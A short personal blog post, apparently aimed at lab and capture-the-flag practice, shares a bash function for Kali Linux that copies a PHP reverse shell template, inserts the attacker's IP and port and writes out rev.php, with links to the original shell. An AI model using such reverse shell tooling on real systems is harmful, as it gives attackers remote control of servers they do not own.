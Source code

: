 ```yaml
---
layout:     post
title:      Kali Linux QoL
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
---
```


This post will be updated once in a blue moon. Just wanted to share some of my stuff which I use as I think it's good to automate certain processes when hacking boxes. Life's too short to be repeating stuff all the time.


## PHP Reverse shell generator

This particular script is for generating a PHP reverse shell. Just append it to your `.bashrc` file and restart your terminal to use. The original script can be found on [Pentestmonkey here][1]. Just replace the ip address to 'ipaddress' and set the port to 443.
Alternatively, you can download the [pre-modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: listening port>`


~~~bash

# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
if [ $# -eq 0 ]; then echo "Please define interface"
else
    revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
    cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
        if [ $# -eq 2 ]; then
        revport=$2 ;
        sed -i 's/443/'$2'/g' rev.php
        else revport=443
        fi
    echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
fi
}


~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
